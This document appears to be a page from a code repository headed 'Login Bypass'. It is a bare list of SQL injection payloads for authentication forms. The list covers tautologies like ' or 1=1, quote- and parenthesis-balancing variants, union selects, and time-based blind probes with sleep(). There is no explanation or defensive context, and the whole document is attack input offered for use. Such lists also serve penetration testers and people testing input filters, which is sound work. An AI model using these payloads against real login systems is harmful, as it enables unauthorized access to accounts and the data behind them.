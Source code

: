 # **Login Bypass**

### Login bypass  
  
meh' OR 3=3;#  
meh' OR 2=2 LIMIT 1;#  
meh' OR 'a'='a  
meh' OR 1=1 --+  
  
  
param='  
param="  
param=' or 1=1  
param=' or 1=0  
param=' and 1=1  
' or sleep(2) and 1=1#  
' or sleep(2)#  
admin' and sleep(2)#  
' union select sleep(2),null#  
' union select sleep(2),null,null,null,null#  
param=' or 1=1#  
param=' or 1=1  
param=' or 1=1 //  
param= or 1=1#  
param=and or 1=1#  
param=' or 1=1  
  

## This is the most classic, standard first test:

###   
' or '1'='1  
  
Then you have:  
-'  
' '  
'&'  
'^'  
'*'  
' or ''-'  
' or '' '  
' or ''&'  
' or ''^'  
' or ''*'  
"-"  
" "  
"&"  
"^"  
"*"  
" or ""-"  
" or "" "  
" or ""&"  
" or ""^"  
" or ""*"  
or true--  
" or true--  
' or true--  
") or true--  
') or true--  
' or 'x'='x  
') or ('x')=('x  
')) or (('x'))=(('x  
" or "x"="x  
") or ("x")=("x  